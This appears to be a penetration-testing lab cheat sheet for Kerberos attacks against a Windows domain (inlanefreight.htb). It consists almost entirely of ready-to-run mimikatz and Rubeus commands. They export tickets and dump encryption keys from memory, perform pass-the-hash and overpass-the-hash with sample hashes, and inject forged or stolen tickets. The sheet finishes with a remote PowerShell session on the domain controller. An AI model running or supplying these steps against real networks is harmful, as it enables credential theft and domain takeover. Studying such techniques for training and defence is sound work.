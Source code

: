 
#### Retrieve kerberos tickets mimikatz
```cmd-session
c:\tools> mimikatz.exe

mimikatz # privilege::debug

sekurlsa::tickets /export

```
#### Rubeus - Export Tickets

  Rubeus - Export Tickets

```cmd-session
c:\tools> Rubeus.exe dump /nowrap
```

### Forge TGT Tickets

#### 1) Extract Kerberos Encryption keys
```cmd-session
c:\tools> mimikatz.exe


mimikatz # privilege::debug


mimikatz # sekurlsa::ekeys
```
#### 2) Mimikatz - Pass the Key or OverPass the Hash (Admin Priv)

  Mimikatz - Pass the Key or OverPass the Hash

```cmd-session
c:\tools> mimikatz.exe


mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
``` 
#### 2) Rubeus - Pass the Key or OverPass the Hash (Non Admin Priv)

  Rubeus - Pass the Key or OverPass the Hash

```cmd-session
c:\tools> Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

#### 3) Rubeus - Pass the Ticket (direct)

```cmd-session
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```
#### 3) Rubeus - Pass the ticket (load ticket from .kirbi file)
```cmd-session
c:\tools> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
#### (extra) Convert kirbi to base64
```powershell-session
PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```
#### 3) Rubeus - Pass the ticket (Ticket in base64)

```cmd-session
c:\tools> Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
 _
```

#### 3) Mimikatz - PtT with kirbi file
```cmd-session
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```
#### 4) Mimkatz - PtT Remote Powershell
```cmd-session
mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"


c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
[DC01]: PS C:\Users\john\Documents>
```

#### 4) Rubeus - PtT Remote Powershell
```cmd-session
C:\tools> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
```cmd-session
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
 
```
```cmd-session
c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
```
